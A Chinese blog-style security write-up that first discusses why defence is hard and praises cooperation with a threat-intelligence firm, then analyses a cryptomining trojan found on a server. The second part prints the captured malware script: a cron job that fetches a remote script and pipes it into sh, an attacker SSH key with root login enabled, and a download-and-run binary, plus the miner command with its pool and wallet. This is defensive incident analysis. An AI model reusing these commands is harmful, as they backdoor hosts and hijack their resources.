 #### 防御之难

首先，防御一方是守城战。资源有限，防线漫长，安全投入大见效慢。做与不做效果无法评估，做了不代表没有漏洞，不做也不见得出什么大事。

其次，消极安全观主导制度体系建设。每个大单位都有安全责任制，甚至很多地方都上升到安全KPI一票否决的高度。实际情况呢？ 管理上的松散、各自为战，为了安全KPI，消极看待业务需求，逼得业务方剑走偏锋，反而增加了漏洞风险。

最后，攻防双方技术上完全不对等。
攻击者已经进化到大兵团作战模式，兵强马壮，甚至还发展出CaaS（Crime as a Service）这类梦幻般的服务理念。例如僵尸网络不仅可以调度全部资源，提供大规模攻击服务，还能提供间歇性的慢速攻击服务。按需收费，童叟无欺。
防御者基本上还是的大刀长矛。这战没发打。

#### 合作
如果凭借笔者个人的天资和努力，甚至凭借本公司的力量，几乎可以肯定，我们到现在还不一定能知道这款的木马的名字，更不用说管窥它的细节。因为我们根本就不是安全公司，几百号人里面连一个安全专家都没有。这种情况在其它企业应该也具有普遍性。

在这次的案例中，很快就完成了从样本捕获、攻击分析到安全加固的一系列动作，全程业务不受太大影响，甲方用户基本无感知。关键得益于和第三方的充分合作。

微步在线（ThreatBook）——国内首家威胁情报公司。它们的思路很特别，没有去走传统安全公司的老路，而是专注于威胁情报的样本分析、收集和处理，实现大范围长跨度的数据积累，促进情报交流和信息共享，通过合作创造价值。这个思路对于打破行业、竞争企业的壁垒，意义非凡。

最近，它们刚刚拿到A轮投资，资本市场就是敏锐。


##（2）今天你被挖矿了吗？
字数835 阅读115 评论2 喜欢1
书接上文，针对编号101样本的分析，我们已经知道，黑色产业界通过植入木马，控制了大量主机资源，只要有人花钱，就可以按需要调度足够的资源发动DDos攻击，据说还可以按效果付费。

此外，还有一种常见模式则是“挖矿木马”，首先还是来看样本：
~~~
root      3744 29921  0 19:53 pts/0    00:00:00 grep min
root     31333     1 99 19:48 ?        02:46:38
/opt/minerd -B -a cryptonight
-o stratum+tcp://xmr.crypto-pool.fr:8080 -u
48vKMSzWMF8TCVvMJ6jV1BfKZJFwNXRntazXquc7fvq9DW23GKk
cvQMinrKeQ1vuxD4RTmiYmCwY4inWmvCXWbcJHL3JDwp -p x
~~~

uptime看到的负载值非常高。

启动脚本
~~~

echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
    fi
~~~